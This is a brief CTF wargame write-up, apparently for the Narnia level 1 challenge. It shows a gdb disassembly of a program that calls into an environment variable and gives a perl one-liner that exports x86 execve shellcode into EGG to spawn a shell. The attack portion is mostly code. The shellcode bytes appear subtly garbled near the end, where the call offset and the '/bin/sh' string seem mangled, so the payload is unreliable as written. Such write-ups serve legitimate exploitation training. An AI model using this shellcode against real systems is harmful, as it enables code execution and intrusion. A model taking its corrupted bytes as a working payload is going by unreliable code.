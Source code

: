 ```yaml
---
title: "Narnia1 Write-up"
layout: post
category: HackING
author: A1phaZer0
---
```

1.Get disassembled code.  
```bash
gdb-peda$ disas main
Dump of assembler code for function main:
   [...]
   0x08048486 <+9>:	 mov    DWORD PTR [esp],0x8048570
   0x0804848d <+16>:	call   0x8048330 <getenv@plt>
   0x08048492 <+21>:	test   eax,eax
   0x08048494 <+23>:	jne    0x80484ae <main+49>
   [...]
   0x080484ba <+61>:	mov    DWORD PTR [esp],0x8048570
   0x080484c1 <+68>:	call   0x8048330 <getenv@plt>
   0x080484c6 <+73>:	mov    DWORD PTR [esp+0x1c],eax
   0x080484ca <+77>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484ce <+81>:	call   eax
   [...]
End of assembler dump.
```
<!--more-->
`<getenv@plt>` returns a pointer to the `value` part of the whole `var=value` environment string, so `call eax` will jump to where `value` starts and run.  
All one need to do is put payload into that environment variable.   
2.Put payload into `EGG`
```bash
$ export EGG=$( perl -e 'print "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\x6e\x2f\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42"' )
```
Run ./narnia1, you'll get a shell.

